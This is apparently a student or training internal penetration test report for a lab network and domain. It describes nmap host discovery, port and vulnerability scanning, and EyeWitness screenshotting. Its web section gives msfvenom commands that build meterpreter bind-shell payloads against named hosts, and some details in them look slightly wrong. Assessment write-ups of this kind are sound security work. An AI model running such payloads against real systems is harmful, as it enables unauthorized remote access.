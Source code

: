 # INTERNAL NETWORK PENETRATION TESTING REPORT
#### BY ADU GYENI BENJAMIN

### Table of Contents
1. [Summary](#summary)
2. [Testing_Methodogy](#TestingMethodogy)
3. [Host_Discovery](#HostDiscovery)
4. [Sevice_Discovery_and_Port_Scanning](#SeviceDiscoveryandPortScanning)
5. [Web-Based_Attack_Surfaces](#Web-BasedAttackSurfaces)
6. [Generating_Payloads](#GeneratingPayloads)

### Summary
An Internal Network Penetration Test was performed on a scope comprising 10.10.10.0/24 and a domain name https://virtualinfosecafrica.com/ from September 12th, 2024 to September 14th, 2024. This report describes penetration testing that represents a point in time snapshots of the network security posture of the scope in question which can be found in the subsequent sessions.


### Testing Methodogy
Testing took off by utilizing the Network Mapper(NMAP) tool to locate live hosts and services in the in-scope ip address provided. The output of this tooling was then manually examined and the host and services were manually enumerated to uncover any missed vulnerability and weakness. Web-based attack surfaces were exploited to generate payloads.


### Host Discovery
Host discovery is a process of finding live hosts on a network. It can be used to narrow down the scope of a network assessment or during security testing. One tool which is mostly used in host discovery is the nmap tool. The command used in the host discovery was " nmap -sn 10.10.10.0/24 ", where " -sn (or --ping-scan) " - tells nmap to perform a "ping scan" which is used to discover hosts without performing a full port scan. It will only check if hosts are alive, not what services they are running.
" 10.10.10.0/24 " - specifies the target network. The /24 is a CIDR notation indicating a subnet mask of 255.255.255.0, which means the scan will cover all IP addresses from 10.10.10.1 to 10.10.10.254.

![Host Discovery](Images/host_discovery.png)

The below image is a description of how subdomain enumeration was performed using aiodnsbrute tool
![Aiodnsbrute](Images/aiodns.png)



### Service Discovery And Port Scanning
Service discovery and port scanning are essential techniques in network management, security, and administration.

##### Service Discovery
- **Purpose:** Identifies active services on a network, such as web servers or databases.
- **Benefits:**
  - **Configuration Management:** Helps administrators verify and manage service configurations.
  - **Troubleshooting:** Assists in diagnosing and resolving network issues by revealing which services are running.
  - **Security:** Aids in identifying potential vulnerabilities by showing what services are exposed and their current state.

##### Port Scanning
- **Purpose:** Detects open ports on networked devices, revealing which services are available.
- **Benefits:**
  - **Network Mapping:** Helps in understanding the network layout and available services.
  - **Security Assessment:** Identifies open ports and services that may be vulnerable, aiding in vulnerability management.
  - **Compliance:** Ensures systems meet security policies and standards by regularly checking for unintended open ports.

##### Combined Use
- **Enhanced Security:** Together, these techniques provide a comprehensive view of network security, identifying vulnerabilities and ensuring proper configuration.
- **Efficient Management:** They help in maintaining a secure and well-managed network environment by detecting potential issues early.
  
![Service Discovery and Port Scanning](Images/sdps.png)


### Vulnerability Scanning
Vulnerability scanning is an automated process that identifies security weaknesses in systems, networks, or applications. It helps detect unpatched software, misconfigurations, and other vulnerabilities that could be exploited. The scanning process involves discovering live hosts, scanning for known issues, analyzing results, and generating reports. Benefits include proactive security, cost-effectiveness, and regulatory compliance, though it may produce false positives or miss some vulnerabilities. Regular vulnerability scanning is essential for maintaining and enhancing overall security.

![Vulnerability Scanning](Images/vulnerability_scanning.png)


### Web-Based Attack Surfaces
Web-based attack surfaces include web application interfaces, authentication mechanisms, APIs, and server configurations, each posing potential security risks like SQL injection or session hijacking. Key security measures involve input validation, secure session management, and keeping software updated. Addressing vulnerabilities in these areas helps protect against exploits and enhances overall web security.

- To use eyewitness to take screenshots of the servers, including those running on non-standard HTTP/HTTPS ports, you can use the following bash command: "eyewitness -f hosts.txt --web --resolve --ports 80, 443, 8080, 8443"

- To generate a base64-encoded payload that triggers a TCP bind shell on executiion on host 10.10.10.55(Apache Tomcat), use this bash command: "msfvenom -p java/meterpreter/bind-tcp LHOST=10.10.10.55 LPORT=4444 -f jar"

- To generate a payload that triggers a TCP bind shell on executiion on host 10.10.10.30(Python Server), use this bash command: "msfvenom -p python/meterpreter/bind-tcp LHOST=10.10.10.30 LPORT=4444 -e base64"

![web attack surfaces](Images/was1.1.png)


![web attack surfaces](Images/was1.2.png)


![web attack](Images/was2.png)
  



